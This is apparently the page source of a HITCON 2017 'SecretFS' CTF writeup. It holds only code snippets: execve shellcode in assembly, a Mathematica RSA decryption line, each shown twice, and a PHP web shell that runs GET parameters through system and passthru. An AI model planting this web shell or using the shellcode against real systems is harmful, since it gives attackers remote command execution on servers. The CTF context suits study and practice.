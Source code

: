 ```yaml
---
title: "Hitcon2017 -- SecretFS Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - crypto
---
```


<div class="notice--info">
<strong>Name</strong>: Secret FS<br>
<strong>Category</strong>: crypto, pwn<br>
<strong>Points</strong>: 196<br>
<strong>Solves</strong>: 69<br>
<strong>Given</strong>: <code>secretfs</code>
</div>


```assembly
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
```

~~~nasm
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
~~~


```mathematica
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```php
<?php
if (isset($_GET['bin'])) {
    passthru($_GET['bin']);
} elseif (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
} else {
    echo 'No GET params set. Use bin=cmd" for passthru, cmd=cmd for system.';
}
?>
```